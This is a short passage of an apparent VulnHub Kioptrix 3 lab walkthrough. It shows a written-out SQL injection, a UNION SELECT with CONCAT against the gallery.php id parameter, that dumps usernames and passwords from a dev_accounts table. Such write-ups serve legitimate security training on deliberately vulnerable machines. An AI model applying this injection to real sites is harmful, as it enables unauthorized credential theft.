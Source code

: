 <img src="/assets/img/blog/vulnhub-kioptrix3/kioptrix3-09.png"> 

Result shows us 3 columns of interest:

* id
* password
* username

Great! That's exactly what we want. All that remains is one last command which will present us with the sweet credentials - `kioptrix3.com/gallery/gallery.php?id=1 UNION SELECT 1,CONCAT(username,';',id,';',password),NULL,4,5,6 FROM dev_accounts`

<img src="/assets/img/blog/vulnhub-kioptrix3/kioptrix3-10.png"> 
